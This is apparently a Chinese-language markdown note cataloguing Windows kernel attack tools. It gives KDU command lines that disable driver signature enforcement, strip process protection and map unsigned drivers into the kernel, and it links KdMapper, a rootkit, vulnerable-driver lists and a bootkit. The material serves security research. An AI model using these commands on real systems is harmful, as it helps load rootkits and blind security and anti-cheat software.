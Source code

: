 ```
kdu -list 列出目前可利用的漏洞驱动
kdu -ps 1234 #降级1234进程的任何保护
kdu -dse 0 #关闭DSE
kdu -dse 6 #开启DSE
kdu -map c:\driverless\mysuperhack.sys #加载mysuperhack.sys到内核
kdu -prv 6 -scv 3 -drvn edrv -drvr e3600bl -map c:\install\e3600bl.sys
#使用6号漏洞驱动 第3个版本的shellcode 将e3600bl.sys作为名称edrv的驱动加载并注册为e3600bl
kdu -pse "C:\Windows\System32\notepad.exe C:\TEMP\words.txt"
#将nodepad作为PPL反病毒软件运行
```

> PLL ( ProtectedProcessLight-AntiMalware ) 是一种进程权限，可以最大权限防止进程内存被读写以及防止注入
>
> 详细见以下链接
>
> https://paper.seebug.org/1892
>
> https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-

#### KdMapper 

https://github.com/TheCruZ/kdmapper

利用Intel的驱动操作内核内存

https://forum.butian.net/share/1706

奇安信这篇share利用KdMapper 间接修改**`win11 CI.dll!g_CiOptions=0`**干掉了DSE

**映射物理内存到另一个虚拟地址然后修改后再进行恢复 可以绕过 MmProtectDriverSection 的保护**

#### Black-Angel-Rootkit

https://github.com/XaFF-XaFF/Black-Angel-Rootkit

使用kdmapper实现的内核rootkit

- 关闭DSE和KPP
- 隐藏进程和端口
- 进程提权
- 进程保护

#### VulDrv

https://github.com/alfarom256/CVE-2022-3699

一些可用的驱动

 https://www.unknowncheats.me/forum/anti-cheat-bypass/334557-vulnerable-driver-megathread.html

EAC也会检测部分被滥用的驱动作为外挂特征

### Bootkit

#### EfiGuard

https://github.com/Mattiwatti/EfiGuard
